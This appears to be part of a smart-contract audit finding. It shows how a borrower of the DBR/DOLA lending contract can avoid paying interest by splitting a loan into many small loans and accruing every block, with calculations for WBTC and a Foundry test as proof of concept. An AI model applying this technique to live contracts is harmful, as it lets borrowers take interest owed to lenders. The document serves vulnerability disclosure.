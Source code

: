 #### Risk parameters

However, all these values could change in the future. And if we look at other networks, Layer2 or EVM compatible Layer1, the parameters might be different today.

Also, notice that if the contract were used to borrow a different asset than DOLA, the numbers would look drastically different. The risk increases with the asset's price and becomes bigger the fewer decimals the token uses. For example, to borrow 1 WBTC (8 decimals), we would only need 39 small loans:

    #loans = 10^8 / 2,627,999 ~39

And to borrow WBTC worth $1,000,000 at a price of 20,746$/BTC, we would need 1864 small loans.

    #loans ~= 49*10^8 / 2,627,999 ~= 1864

#### Foundry

The following test demonstrates how to avoid paying interest on a loan for 1h. A failing test means that the attack was successful.

    $ git diff src/test/DBR.t.sol
    diff --git a/src/test/DBR.t.sol b/src/test/DBR.t.sol
    index 3988cf7..8779da7 100644
    --- a/src/test/DBR.t.sol
    +++ b/src/test/DBR.t.sol
    @@ -25,6 +25,20 @@ contract DBRTest is FiRMTest {
             vm.stopPrank();
         }
     
    +    function testFail_free_borrow() public {
    +        uint borrowAmount =  2_627_999;
    +
    +        vm.prank(address(market));
    +        dbr.onBorrow(user, borrowAmount);
    +
    +        for (uint i = 12; i <= 3600; i += 12) {
    +            vm.warp(block.timestamp + 12);
    +            dbr.accrueDueTokens(user);
    +        }
    +        assertEq(dbr.deficitOf(user), 0);
    +    }
    +
    +
         function testOnBorrow_Reverts_When_AccrueDueTokensBringsUserDbrBelow0() public {
             gibWeth(user, wethTestAmount);
             gibDBR(user, wethTestAmount);

Output:

    $ forge test --match-test testFail_free_borrow -vv
    [⠆] Compiling...
    [⠊] Compiling 1 files with 0.8.17
    [⠢] Solc 0.8.17 finished in 2.62s
    Compiler run successful
